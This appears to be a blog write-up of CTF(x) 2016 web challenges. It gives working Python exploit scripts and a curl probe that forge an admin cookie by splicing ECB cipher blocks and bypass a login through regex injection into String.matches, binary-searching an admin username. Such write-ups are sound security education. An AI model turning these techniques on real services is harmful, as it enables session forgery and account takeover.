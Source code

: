 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/ctf-x-2016/
  - /blog/2016/08/29/ctf-x-2016/
date: "2016-08-29T21:12:07+09:00"
tags: [ "ctf", "writeup", "ctf-x" ]
"target_url": [ "http://ctfx.io/" ]
---
```


# CTF(x) 2016

pwnは遅れて公開されたのだが、2日目がkatagaitai勉強会と(あとworld codesprintや学校とも)で衝突を起こしており、参加時間が取れずpwnを開けなかった。
web50 north koreaをtukejonnyさんが解いててエスパーっぽくてプロかったのが印象的。
for100 passwordはfcrackzip + pkcrackというのは合っていて既知平文も正しかったのだが、`pkcrack`に渡すoptionsでミスがあったため解けず。
misc150 cafebabeも方針は合っていたが文字読み取りの精度が足らずで解けず。python/PILで書いたのは速度面で明らかな失敗であった。


## customauth

The flag is obtained by a ciphertext of a json which contains `"admin":true`.
It uses a block cipher in ECB mode.
You can construct the ciphertext chunk-wise, using the fact that the correspondence of plaintexts and ciphertexts are independent of positions and other chunks.

I needed to send the `admin` field with empty string to get the chunk like `AAAAAA","admin":`.

``` python
#!/usr/bin/env python3
import re
import json
import requests
import collections

chunk = lambda s, l: [s[i:i+l] for i in range(0, len(s), l)]

def encrypt(url, payload):
    resp = requests.post(url, data=payload, allow_redirects=False)
    auth = resp.headers['Set-Cookie'].split()[0][5:-1]
    return auth

def stringify(params): # for ordering and spaces
    return '{' + ','.join(['"%s":%s' % (k, json.dumps(params[k])) for k in params]) + '}'

def check_encrypt(url, params, plain):
    t = stringify(params)
    t = chunk(t, 16)
    i = t.index(plain)
    s = encrypt(url, params)
    assert len(s) % 32 == 0
    s = chunk(s, 32)
    print(repr(plain), s[i])
    return s[i]

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='problems.ctfx.io')
parser.add_argument('port', nargs='?', default=7001, type=int)
args = parser.parse_args()

f = lambda x, *ys: check_encrypt('http://{}:{}/login'.format(args.host, args.port), collections.OrderedDict(ys), x)

auth = ''
auth += f(r'{"username":"AAA', ('username', r'AAA'), ('password', 'password'))
auth += f(r'AAAAAA","admin":', ('username', r'AAAAAAAAA'), ('admin', ''), ('password', 'password'))
auth += f(r'true,           ', ('username', r'AAAtrue,           '), ('password', 'password'))
auth += f(r'"password":"A"}',  ('username', r'A'), ('password', 'A'))
print('auth=' + auth)

resp = requests.get('http://{}:{}'.format(args.host, args.port), headers={ 'Cookie': 'auth=' + auth })
flag = re.search(r'ctf\([^)]*\)', resp.text).group(0)
print(flag)
```

## HarambeHub

Inject your regular expressions.
Since it compares strings with `String.matches`, not `String.equals`, you can use `.*` instead of the true password.

``` java
    public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }
```

The password is trivial, but the username who has a flag is unknown.
You know your username is `[Member] foo` and not simply `foo`, so you can think that an user `[Admin] bar` exists.
You can do binary search to determine the exact username, and you will get the flag.

``` sh
$ curl 'http://problems.ctfx.io:7003/users?username=\\[A.*&password=password&real_name=real_name' -X POST
FAILED: User with that name already exists!
```

``` python
#!/usr/bin/env python3
import string
import time
import urllib.request
import urllib.parse

def query_users(username, password, real_name):
    url = 'http://problems.ctfx.io:7003/users?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password, 'real_name': real_name }))
    print('POST', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    req.method = 'POST'
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
    return query_users(username, password, real_name)
def query_name(username, password):
    url = 'http://problems.ctfx.io:7003/name?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password }))
    print('GET', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
def match_users(regex):
    s = query_users(regex, 'password', 'real_name')
    if s == 'FAILED: User with that name already exists!':
        return True
    else:
        assert s.startswith('OK: Your username is ')
        return False

s = '' # Arxenixisaloser
while True:
    for letters in [ string.ascii_lowercase, string.ascii_uppercase, string.digits ]:
        if not match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[-1])):
            continue
        l = 0
        r = len(letters) - 1
        while l < r: # [l, r]
            m = (l + r) // 2
            if match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[m])): # c <= m
                r = m
            else: # m < c
                l = m+1
        s += letters[l]
        break
    else:
        break
    print('FLAG', s)
print(query_name(r'[Admin] ' + s, '.*')) # ctf(h4r4mb3_d1dn1t_d13_4_th1s_f33ls_b4d)
```
